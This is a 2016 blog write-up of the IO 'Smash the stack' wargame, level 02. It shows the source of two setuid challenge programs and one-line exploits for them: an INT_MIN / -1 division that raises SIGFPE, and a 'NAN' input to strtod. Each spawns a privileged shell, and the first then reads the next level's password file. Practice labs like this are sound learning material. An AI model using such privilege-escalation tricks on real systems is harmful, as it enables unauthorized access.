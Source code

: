+++
title = "IO Smash the stack level 02"
date = "2016-01-26T09:06:00-02:00"
publishdate = "2016-01-26"
categories =["Security"]
tags = ["Wargames", "C"]
slug = "io-smashthestack-level-02"
project_url = "https://greyhat.dk/io-smashthestack-level-02"
type = "post"
+++

## Level02

```sh
level2@io:~$ cd /levels/
level2@io:/levels$ ls -latr level02*
-r-------- 1 level2 level2  437 May 26  2011 level02_alt.c
-r-sr-x--- 1 level3 level2 6940 May 26  2011 level02_alt
-r-sr-x--- 1 level3 level2 5329 Oct  4  2011 level02
-r-------- 1 level2 level2  495 Apr 13  2015 level02.c
```

This time we got source code so lets look at it

level2@io:/levels$ cat level02.c
```c
//a little fun brought to you by bla

#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void catcher(int a)
{
        setresuid(geteuid(),geteuid(),geteuid());
	printf("WIN!\n");
        system("/bin/sh");
        exit(0);
}

int main(int argc, char **argv)
{
	puts("source code is available in level02.c\n");

        if (argc != 3 || !atoi(argv[2]))
                return 1;
        signal(SIGFPE, catcher);
        return abs(atoi(argv[1])) / atoi(argv[2]);
}
```

So in order to get the cacher function to run we need to get provide 2 arguments (argv[0] is the program itself) and the last argument must not be 0. Since the cacher will only run on signal SIGFPE then lets have a look at the man page for signal(2)

> According to POSIX, the behavior of a process is undefined after it ignores a SIGFPE, SIGILL, or SIGSEGV signal that was not generated by kill(2) or raise(3).  Integer division by  zero  has  
> undfined result.  On some architectures it will generate a SIGFPE signal.  (Also dividing the most negative integer by -1 may generate SIGFPE.)  Ignoring this signal might lead to an endless loop.

So the most negative integer would eihter be -2^15 (2 bytes) or -2^31 (4 bytes) and since this is a 32bit system lets try with 4 bytes

```sh
level2@io:/levels$ ./level02 $(echo "-2^31"|bc) -1
source code is available in level02.c

WIN!
sh-4.2$ whoami
level3
sh-4.2$ cat /home/level3/.pass
XXXXXXXXXXXXXXXX
```

## Level02 alt

level2@io:/levels$ cat level02_alt.c
```c
/* submitted by noname */

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>


#define answer 3.141593

void main(int argc, char **argv) {

	float a = (argc - 2)?: strtod(argv[1], 0);

        printf("You provided the number %f which is too ", a);


        if(a < answer)
                 puts("low");
        else if(a > answer)
                puts("high");
        else
                execl("/bin/sh", "sh", "-p", NULL);
}
```

The alternative level took me a while to find. There is no equel sign so I started reading up on strtod(3) and found

> A NAN is "NAN" (disregarding case) optionally followed by '(', a sequence of characters, followed by ')'.  The character string specifies in an implementation-dependent way the type of NAN.

```sh
level2@io:/levels$ ./level02_alt NAN
sh-4.2$ whoami
level3
```

